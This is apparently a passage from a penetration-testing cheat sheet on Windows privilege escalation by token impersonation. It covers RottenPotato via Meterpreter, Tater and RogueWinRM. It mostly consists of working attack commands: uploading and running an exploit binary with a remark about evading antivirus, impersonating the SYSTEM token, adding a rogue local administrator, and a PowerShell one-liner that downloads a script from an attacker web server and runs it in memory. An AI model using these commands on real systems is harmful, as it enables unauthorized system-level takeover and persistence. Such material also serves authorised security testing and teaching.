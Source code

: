 ###### Rotten Potato x64 w/ Metasploit

On unpatched systems, `RottenPotato` can be used in combination with the
`Metasploit` `meterpreter`'s `incognito module`.

```
# Load the incognito module to toy with tokens
meterpreter > load incognito

# Upload the MSFRottenPotato binary on the target
# Some obfuscation may be needed in order to bypass AV
meterpreter > upload MSFRottenPotato.exe .

# The command may need to be run a few times
meterpreter > execute -f 'MSFRottenPotato.exe' -a '1 cmd.exe'

# The NT AUTHORITY\SYSTEM token should be available as a delegation token
# Even if the token is not displayed it might be available and the impersonation should be tried anyway
meterpreter > list_tokens -u
meterpreter > impersonate_token 'NT AUTHORITY\SYSTEM'
```

###### Tater

`Tater` is a `PowerShell` implementation of the `Potato` exploit and thus works
similarly by targeting the `BITS` service.

```
# Import module (Import-Module or dot source method)
Import-Module ./Tater.ps1
. ./Tater.ps1

# Trigger (Default = 1): Trigger type to use in order to trigger HTTP to SMB relay.
0 = None, 1 = Windows Defender Signature Update, 2 = Windows 10 Webclient/Scheduled Task

Invoke-Tater -Command "net user <USERNAME> <PASSWORD> /add && net localgroup administrators <USERNAME> /add"

# Memory injection and run
powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Tater.ps1'); Invoke-Tater -Command <POWERSHELLCMD>;
```

###### RogueWinRM

Starting from `Windows 10 1809` (and `Windows Server 2019` if the `WinRM`
service is not already started), `RogueWinRM` can be used to exploit the
`SeImpersonatePrivilege` privilege.

```
RogueWinRM -p <BINARY_PATH | C:\windows\system32\cmd.exe> [-a "<COMMAND_LINE_ARGUMENTS>"]
```

###### PrintSpoofer
